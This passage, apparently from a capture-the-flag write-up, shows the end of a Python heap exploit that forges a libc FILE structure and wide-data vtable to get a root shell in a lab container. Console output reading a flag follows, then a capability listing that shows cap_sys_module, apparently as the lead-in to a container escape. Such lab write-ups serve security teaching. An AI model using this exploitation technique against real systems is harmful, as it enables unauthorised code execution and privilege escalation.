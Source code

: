 ```py
fake._IO_write_end = u64(b'/bin/sh'.ljust(8,b'\x00'))
fake._lock = libc.sym['_IO_stdfile_1_lock']
fake._codecvt = stdout + 0xb8
fake._wide_data = stdout + 0x200
fake_vtable = libc.sym['_IO_wfile_jumps'] - 0x18
fake.unknown2 = p64(0)*2 + p64(stdout+0x20) + p64(0)*3 + p64(fake_vtable)

edit(7, bytes(fake))
r.interactive()
```
{: file="exploit.py" }

Running the script, we are able to get a shell as `root` inside the container and can read the second flag at `/root/user.txt`.

```console
root@ip-10-10-144-85:~# python3 exploit.py
[+] Libc Leak: 0x7b7edaf61100
[+] Libc Base : 0x7b7edad5d000
[+] Heap Leak: 0x5db2420ed400
[+] Heap Base : 0x5db2420ed000
$ id
uid=0(root) gid=0(root) groups=0(root)
$ wc -c user.txt
66 user.txt
```

### Third Flag

Checking our capabilities inside the container, we can see that we have the `cap_sys_module` capability.

```console
root@a8fc621bec0b:~# capsh --print
Current: =ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
Ambient set =
Current IAB:
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=0(root)
Guessed mode: UNCERTAIN (0)
```
